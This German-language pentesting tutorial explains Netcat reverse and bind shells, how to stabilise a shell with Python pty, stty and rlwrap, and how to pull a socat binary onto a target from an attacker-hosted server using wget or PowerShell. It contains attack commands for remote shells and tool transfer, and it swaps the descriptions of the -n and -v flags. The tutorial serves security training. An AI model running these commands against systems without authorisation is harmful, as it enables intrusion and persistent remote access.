 Netcat ist das traditionelle „Schweizer Taschenmesser“ der Netzwerktechnik. Es wird verwendet, um alle Arten von Netzwerkinteraktionen manuell auszuführen, einschließlich Dinge wie das Abgreifen von Bannern während der Enumeration/Bestandaufnahme des Ziels, aber noch wichtiger für unsere Zwecke ist, dass es verwendet werden kann, um Reverse-Shells zu empfangen und sich mit entfernten Ports zu verbinden, die mit Bind-Shells auf einem Zielsystem verbunden sind. Netcat-Shells sind standardmäßig sehr instabil (leicht zu verlieren), können aber durch Techniken verbessert werden.

# Basic Reverse/Bind Shell

Basic Reverse Shell Syntax mit Erklärung
```
nc -lvnp <portnummer>
```

nc -> Startet NetCat
-l  -> Stellt NetCat in den Listener Mode
-n -> Sorg für einen Verbose output
-v ->  weist netcat an, keine Hostnamen aufzulösen oder DNS zu verwenden
-p -> Indiziert das Netcat auf einem Port der folgt lauschen soll


Basic Bind Shell Syntax
```
nc <Ziel-IP> <Ausgewählter Port>
```


# Stabilisierung der Netcat Shell

### Technik 1: Python

Die erste Technik, ist nur auf Linux-Systemen anwendbar, da auf diesen fast immer Python standardmäßig installiert ist. Dies ist ein dreistufiger Prozess:

Als Erstes verwenden wir den Befehl `python -c ‚'import pty;pty.spawn(„/bin/bash“)'` der Python verwendet, um eine besser ausgestattete Bash-Shell zu erzeugen; dabei ist zu beachten, dass einige Ziele die angegebene Python-Version benötigen. Wenn dies der Fall ist, muss python je nach Bedarf durch python2 oder python3 ersetzt werden. Jetzt sieht unsere Shell etwas hübscher aus, aber wir können immer noch nicht die Tabulator-Autovervollständigung oder die Pfeiltasten benutzen, und Strg + C beendet die Shell immer noch.

Der zweite Schritt ist: `export TERM=xterm` -- damit haben wir Zugriff auf term-Befehle wie `clear`.

Schließlich (und am wichtigsten) werden wir die Shell mit Strg + Z in den Hintergrund stellen. Zurück in unserem eigenen Terminal verwenden wir `stty raw -echo; fg.` Dies bewirkt zweierlei: Erstens schaltet es unser eigenes Terminal-Echo aus (wodurch wir Zugriff auf die automatische Vervollständigung von Tabulatoren, die Pfeiltasten und Strg + C zum Beenden von Prozessen erhalten). Dann bringt es die Shell in den Vordergrund und beendet den Prozess.

Bebildertes Besipiel:
https://imgur.com/KL79nHJ
### Technik 2: rlwrap

rlwrap ist ein Programm, das, einfach ausgedrückt, den Zugriff auf den Verlauf, die automatische Vervollständigung der Tabulatoren und die Pfeiltasten ermöglicht, sobald man eine Shell erhält. Allerdings muss man sich noch manuell stabilisieren, wenn man in der Lage sein will, Strg + C in der Shell zu verwenden. rlwrap ist unter Kali nicht standardmäßig installiert, also installieren Sie es zuerst mit `sudo apt install rlwrap`.

Um rlwrap zu verwenden, muss ein etwas anderer Listener aufgerufen werden:

```
rlwrap nc -lvnp <Port>
```

Indem wir unserem netcat-Listener „rlwrap“ voranstellen, erhalten wir eine viel besser ausgestattete Shell. Diese Technik ist besonders nützlich, wenn man mit Windows-Shells zu tun hat, die ansonsten bekanntermaßen schwer zu stabilisieren sind. Bei einem Linux-Ziel ist es möglich, die Shell vollständig zu stabilisieren, indem Sie denselben Trick wie in Schritt drei der vorherigen Technik anwenden: Verlassen Sie die Shell mit Strg + Z, verwenden Sie dann stty raw -echo; fg, um die Shell zu stabilisieren und erneut zu starten.

### Technik 3: Socat

Die dritte einfache Möglichkeit, eine Shell zu stabilisieren, besteht darin, eine anfängliche netcat-Shell als Sprungbrett für eine voll ausgestattete socat-Shell zu verwenden. Diese Technik ist allerdings auf Linux-Ziele beschränkt, da eine Socat-Shell unter Windows nicht stabiler ist als eine netcat-Shell. Um diese Methode der Stabilisierung zu erreichen, würden wir zunächst eine statisch kompilierte Socat-Binärdatei (eine Version des Programms, die so kompiliert wurde, dass sie keine Abhängigkeiten hat) auf den Zielrechner übertragen. Ein typischer Weg, dies zu erreichen, wäre die Verwendung eines Webservers auf dem angreifenden Rechner innerhalb des Verzeichnisses, das Ihre socat-Binärdatei enthält (sudo python3 -m http.server 80), und dann, auf dem Zielrechner, die Verwendung der netcat-Shell, um die Datei herunterzuladen. Unter Linux würde dies mit curl oder wget geschehen 

```
wget <LOCAL-IP>/socat -O /tmp/socat
```


Der Vollständigkeit halber: In einer Windows-CLI-Umgebung kann dasselbe mit Powershell durchgeführt werden, indem entweder Invoke-WebRequest oder eine Webrequest-Systemklasse verwendet wird, je nach installierter Powershell-Version . Wir werden die Syntax für das Senden und Empfangen von Shells mit Socat in den kommenden Aufgaben behandeln.

```
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```
oder
```
iwr -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```